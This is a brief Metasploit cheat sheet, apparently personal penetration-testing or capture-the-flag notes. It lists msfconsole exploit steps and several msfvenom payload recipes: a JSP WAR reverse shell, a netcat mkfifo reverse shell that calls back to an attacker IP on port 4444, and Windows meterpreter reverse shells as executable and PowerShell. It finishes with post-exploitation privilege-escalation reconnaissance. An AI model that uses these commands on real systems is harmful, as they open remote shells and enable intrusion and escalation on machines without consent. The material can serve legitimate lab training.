 
MSFconsole
---
```
search $TARGET_SERVICE
use X
options
set LHOST
set RHOST
exploit
shell
background
```

See payload options:

```shell
msfvenom -p java/jsp_shell_reverse_tcp --list-options
```

Create payload:

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LOCAL_IP LPORT=4444 -f war > runme.war
```

Create bash reverse shell line:

```shell
msfvenom -p cmd/unix/reverse_netcat RHOST=tun0 RPORT=4444 R
```

```shell
mkfifo /tmp/ipvquh; nc $LOCAL_IP 4444 0</tmp/ipvquh | /bin/sh >/tmp/ipvquh 2>&1; rm /tmp/ipvquh
```

Create reverse shell payload, exploit user and escalate to admin:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 --platform windows LHOST=$LOCAL_IP LPORT=4444 -f exe -o shell.exe
#powershell rev shell generator
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$TARGET_IP$ LPORT=4444 -f psh -o meterpreter-64.ps1
```

```msfconsole
use windows/x64/meterpreter/reverse_tcp
use windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 4444
exploit
use post/multi/recon/local_exploit_suggester
set session 1
exploit
#don't forget to set new handler to tun0 and new port
```